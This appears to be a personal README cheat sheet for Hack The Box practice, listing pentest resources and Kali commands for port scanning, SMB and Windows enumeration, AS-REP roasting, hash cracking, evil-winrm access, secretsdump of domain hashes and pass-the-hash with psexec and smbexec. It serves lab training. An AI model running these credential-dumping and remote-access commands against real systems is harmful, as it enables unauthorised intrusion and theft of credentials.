 # HackTheBox

Hack The Box is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.

<img src="https://www.hackthebox.eu/badge/image/134841" alt="Hack The Box">

Link to HTB: \
[http://hackthebox.eu/](http://hackthebox.eu/) 

Tools I use: 
* [Kali Linux](https://www.kali.org/) (Linux distro for pentesting) 
* [Commando VM](https://github.com/fireeye/commando-vm) (Windows VM for pentesting)

Help resources: 
* [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) (Youtube walkthrough videos) 
* [The Cyber Mentor](https://www.youtube.com/channel/UC0ArlFuFYMpEewyRBzdLHiw) (Youtube tutorials)
* [Rapid7](https://www.rapid7.com/db/) (Vulnerability & Exploit Database)
* [Exploit DB](https://www.exploit-db.com/) (Exploit Database)
* [Hack the Box Forums](https://forum.hackthebox.eu/)

### Kali Linux commands

Portscanning target with nmap
```
nmap -sC -sV [targetIP]
```
```
nmap -A -T4 -p- [targetIP]
```
FTP
```
ftp [targetIP]
```
SMB Client
```
smbclient -L [targetIP] -U [username]
```
Query netbios names
```
nmblookup -A [targetIP]
```
Finding open shares
```
nbtscan [targetIP]
```
Enumerate samba shares
```
smbmap -H [targetIP]
```
Windows enumeration
```
enum4linux -a [targetIP]
```
Locate path of files
``` 
locate [string]
```
Enumerating users with impacket
```
python3 ./samrdump.py [targetIP]
```
Get password hash from user using kerberosting
```
python3 ./GetNPUsers.py DOMAIN/username -no-pass -dc-ip [dcIPaddress]
```
Crack a password hash
```
john -wordlist=/usr/share/wordlists/rockyou.txt [filewithhashes.txt]
```
Connect over winrm
```
evil-winrm -u [username] -i [targetIP]
```
Connect over winrm, but with access to a folder and its files
```
evil-winrm -i [targetIP] -u USER -p PASSWORD -s /usr/share/windows-resources/powersploit/Privesc/
```

Download all files from smbshare
```
recurse on
prompt off
mask *
mget *
```
Using secretsdump to dump domain hashes (needs acc with DC SYNC permissions)
```
impacket-secretsdump "DOMAIN/useraccount:Password"@ipadresss
```


Connect with psexec or smbexec using pass the hash
```
python3 smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff username@ipadress
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff username@ipadress
```


